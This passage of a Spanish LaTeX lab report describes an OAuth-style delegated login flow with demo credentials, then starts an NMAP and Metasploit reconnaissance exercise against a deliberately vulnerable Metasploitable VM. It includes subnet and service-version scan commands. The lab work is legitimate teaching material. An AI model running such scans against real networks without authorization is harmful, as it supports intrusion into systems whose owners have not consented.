
\includegraphics[width=1.1\textwidth]{./images/oauth/diagrama_flujo_useragent.png}
\caption{Diagrama User Agent.}
\label{fig:oauth2}
\end{figure}

\begin{enumerate}
	\item El usuario accede con su navegador a la página web principal de la Notaría.

	\item El usuario intenta acceder al formulario de solicitud de hipoteca, este formulario precisa de la 			autenticación del usuario y su información personal. Como el usuario ya es miembro del bufete de abogados 		(empresa colaboradora), se delega en ellos la autenticación y la obtención de recursos. Por tanto, 				redirigimos al usuario	\emph{Redirect.html}.

	\item La primera parada es el servidor de identificación, este devolverá al cliente una página web con un 		formulario de indentificación \emph{Identifier.html}. El usuario completará la información requerida y 			pulsará en el botón \emph{Enviar}.

	\item Se recibe la información de identificación en el servidor IDP, se valida, se genera la 					\emph{CookiePass} y se responde con una redirección \emph{Redirect.html}.

	\item Esta última redirección simplemente convierte el mensaje POST que aún contiene la huella y el DNI y 		contraseña en un mensaje GET, redirigiendo nuevamente al servidor de autorización \emph{Authorize.html}.

	\item El servidor de autorización recibe la \emph{CookiePass}, verifica que la petición sea lícita, valida 		la \emph{CookiePass}(consultando al IDP si es válida), genera un \emph{AccessToken} y realiza una 				redirección a la web de la Notaría \emph{Resultado.html}.

	\item Llegados a este punto, la Notaría ya tiene el código con el que puede realizar las consultas en el 		servidor de recursos, en cada petición presentará el \emph{AccessToken}. Por ejemplo, \emph{dni.html} para 		obtener el DNI.

	\item El servidor de recursos solo recibe el \emph{AccessToken}, no necesita recibir más información, 			porque al consultar al servidor de autorización si es válido, este puede contestar o bien, diciendo que no 		es un código válido \emph{401 Unauthorized} o, con el ID del usuario al que pertenece ese 						\emph{AccessToken} en formato Json. Teniendo el ID del usuario, el servidor de recursos consulta en su base 	de datos y responde con los datos solicitados en formato Json.

	\item La Notaría está programada de tal forma que realizará tantas peticiones como sean necesarias para 		obtener la información requerida por el formulario. Como resultado, se mostrará el formulario al usuario 		final totalmente autocompletado \emph{Resultado.html(Autocompleted)}.


\end{enumerate}


En la figura \ref{fig:oauth3} se muestra el diagrama de secuencia de la obtención del \emph{AccessToken}, el \emph{User Agent} lanza la petición con la \emph{Cookie} al servidor de autorización, este comprueba la validez de la misma consultando al servidor de identificación (quien la generó), este responderá indicando si es válida o no, en caso de serlo, el servidor de autorización genera un \emph{AccessToken} y se lo entrega al \emph{User Agent}. \\

\begin{figure}[htbp]
\centering

\includegraphics[width=1.1\textwidth]{./images/oauth/diagrama_secuencia_getToken.png}
\caption{Diagrama obtener AccessToken.}
\label{fig:oauth3}
\end{figure}


En la figura \ref{fig:oauth4} se muestra el diagrama de secuencia de la obtención de un recurso. El \emph{Client} manda la solicitud al servidor de recursos adjuntando el \emph{AccessToken}, el servidor de recursos lo valida consultando al servidor de autorización (quien lo generó), si es válido, el servidor de autorización responde con el ID del usuario asociado. Finalmente, el servidor de recursos entrega el recurso al \emph{Client}.	\\

\begin{figure}[htbp]
\centering

\includegraphics[width=1.1\textwidth]{./images/oauth/diagrama_obtener_recurso.png}
\caption{Diagrama obtener resurso.}
\label{fig:oauth4}
\end{figure}

% #######################   MANUAL DE USO  ##################################

\subsubsection{Manual de Uso}

El uso de este servicio pretende ser intuitivo y facilitar las gestiones de los usuarios, por lo que su uso es muy simple. Seguiremos los siguientes pasos para probar su funcionamiento:

\begin{itemize}
	\item Comprobar que todos los servidores están iniciados.

	\item Comprobar que no tenemos ningún firewall bloqueando el acceso a los servidores.

	\item Abrir un navegador web y acceder a la página web de la Notaría \\
		\url{http://XXXX/Seguridad\_NotariaWeb/rest/Index}	\\
		(Figura \ref{fig:oauth5})

\begin{figure}[htbp]
\centering

\includegraphics[width=1.1\textwidth]{./images/oauth/notaria_index.png}
\caption{Notaría Index.}
\label{fig:oauth5}
\end{figure}

	\item Pinchar sobre \emph{Formulario de hipoteca} (Nos llevará a la web de identificación).

	\item Introducir el DNI/Contraseña y pulsar sobre \emph{Seleccionar archivo} para incluír la imagen de la 		huella digital. Pulsar \emph{Enviar}. (Figura \ref{fig:oauth6}) \\
	Estas son las credenciales válidas introducidas en la base de datos, la huella debe estar relacionada con el usuario:
	\begin{itemize}
		\item DNI: ''77777777P'' Contraseña: ''alumno'' (Huellas 1-5)
		\item DNI: ''23453456L'' Contraseña: ''alumno''	(Huellas 6-9)
		\item DNI: ''78547854G'' Contraseña: alumno''
	\end{itemize}

\begin{figure}[htbp]
\centering

\includegraphics[width=1.1\textwidth]{./images/oauth/IDP_identifier.png}
\caption{IDP identificación.}
\label{fig:oauth6}
\end{figure}

	\item Como resultado, se mostrará el formulario de hipoteca autocompletado(Notaría) con la información 			obtenida de los servidores del bufete. (Figura \ref{fig:oauth7}) \\

\begin{figure}[htbp]
\centering

\includegraphics[width=1.1\textwidth]{./images/oauth/form_autocompleted.png}
\caption{Formulario de hipoteca autocompletado.}
\label{fig:oauth7}
\end{figure}

\end{itemize}

% #######################  LOG DE EJECUCIÓN   ##################################

%\subsubsection{Log de Ejecución}
%\lstinputlisting[language={} keywords={}]{doc/logOauth.txt}



% #######################   NMAP y Metasploit   ##################################

\clearpage
\section{NMAP y Metasploit}
\rhead[\thepage]{\thesection. NMAP y Metasploit}

\subsection{Víctima}
Utilizaremos una máquina virtual de prueba. Esta máquina ha sido creada con vulnerabilidades para la práctica de ataques. La URL de descarga es la \href{wiki.inf.um.es/metasploitable2/metasploitable-linux-2.0.0.zip}{siguiente}. \\

La IP de esta máquina es la \texttt{192.168.62.189}.

\subsection{Atacante}

\subsubsection{NMAP}

El equipo que actuará como atacante hace uso de la herramienta NMAP. Para instalarla ejecutamos el siguiente comando:

\begin{verbatim}
$ sudo apt-get install namp
\end{verbatim}

Establecemos en el archivo \emph{/etc/hosts}, equivalente al DNS local, la IP de la víctima (\texttt{192.168.62.189}) y la denominamos \texttt{metasploitable}, como muestra la figura \ref{fig:nmap1}. \\

\begin{figure}[htbp]
\centering

\includegraphics[width=0.5\textwidth]{./images/Atacante_dns_victima.png}
\caption{Atacante\_dns\_victima.}
\label{fig:nmap1}
\end{figure}

De esta forma, tenemos dos opciones para hacer referencia a la víctima. En la figura \ref{fig:nmap2} se observa el resultado de este escaneo simple fruto de cualquiera de estas dos opciones.

\begin{verbatim}
$ nmap 192.168.62.189
$ nmap metasploitable
\end{verbatim}

\begin{figure}[htbp]
\centering

\includegraphics[width=0.8\textwidth]{./images/Atacante_nmap_simplescan.png}
\caption{Atacante\_nmap\_simplescan.}
\label{fig:nmap2}
\end{figure}

De forma un poco más elaborada, se puede ejecutar el escaneo de puertos haciendo uso de otras técnicas:

\begin{itemize}
  \item Mediante listado de equipos: \texttt{\$ nmap 192.168.62.1 192.168.62.10 192.168.62.189}
  \item Mediante subred: \$ nmap 192.168.62.0/24
  \item Mediante un fichero que almacene las IPs (o las expresiones de las mismas) a analizar: \$ nmap -iL hosts.txt, como muestra la figura \ref{fig:nmap3}.
\end{itemize}

\begin{figure}[htbp]
\centering

\includegraphics[width=0.4\textwidth]{./images/Atacante_nmapscan_filecomplex.png}
\caption{Atacante\_nmapscan\_filecomplex.}
\label{fig:nmap3}
\end{figure}

\subsubsection{NMAP con Metasploit}

También hemos de instalar Mestasploit para hacer uso de él: \url{https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers}. Una vez instalado, con \texttt{\$ msfconsole} inicializamos Metasploit y la base de datos asociada. \\

A continuación, realizamos un scanner básico de la red, almacenando el contenido en la base de datos interna y exportándolo completo de la misma a un fichero, para así analizarlo:

\begin{verbatim}
$ db_nmap -v -sV 192.168.62.0/24
$ db_export out_ejercicio1.txt
\end{verbatim}

